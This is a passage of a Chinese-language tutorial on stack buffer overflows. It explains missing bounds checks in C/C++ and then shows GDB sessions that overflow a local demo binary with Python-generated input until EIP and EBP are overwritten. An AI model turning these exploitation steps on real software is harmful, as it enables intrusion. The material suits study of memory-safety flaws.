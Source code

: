 缓冲区溢出问题的根本原因在于一些编程语言没有自动检查内存缓冲区或栈的大小，防止溢出。这些语言包括C和C++，它们注重性能，而不要求自动进行边界检查。

因此，开发者需要在代码中手动定义这些内存区域，这就增加了漏洞的风险。很多时候，这些区域可能因为测试需要或者疏忽而未定义，即使是为了测试而设置的区域，最终也可能被忽略掉。

并不是所有的应用环境都会出现缓冲区溢出问题。Java应用程序发生缓冲区溢出的可能性较小，因为Java有自己的内存管理机制。Java使用垃圾回收机制来管理内存，这有助于防止缓冲区溢出的发生。


## 控制EIP

基于堆栈的缓冲区溢出最重要的方面之一是控制指令指针 (EIP)，这样我们就可以告诉它应该跳转到哪个地址。这将使 `EIP` 指向我们的 `Shellcode` 的起始地址，并使 CPU 执行它。

我们可以使用 `Python` 在 `GDB` 中执行命令，`Python` 直接作为我们的输入。方法如下：

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 32 + b"\x90" * 27)')
```

总之，你需要修改的只有`write()`内的内容。让我们随便输入一些东西尝试：

```shell
run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1500 )')
```


```shell
└─$ gdb -q demo    
Reading symbols from demo...
(No debugging symbols found in demo)
(gdb) run $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1500)')
Starting program: /home/killua/Dev/Lab/StackOverFlow/demo $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x55" * 1500)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()


(gdb) info register
eax            0x1                 1
ecx            0xffffcfe0          -12320
edx            0xffffc8c8          -14136
ebx            0x55555555          1431655765
esp            0xffffc700          0xffffc700
ebp            0x55555555          0x55555555  # <---- EBP overwritten
esi            0x56558eec          1448447724
edi            0xf7ffcb60          -134231200
eip            0x55555555          0x55555555  # <---- EIP overwritten
eflags         0x10286             [ PF SF IF RF ]
cs             0x23                35
ss             0x2b                43
ds             0x2b                43
es             0x2b                43
fs             0x0                 0
gs             0x63                99
(gdb) 

```
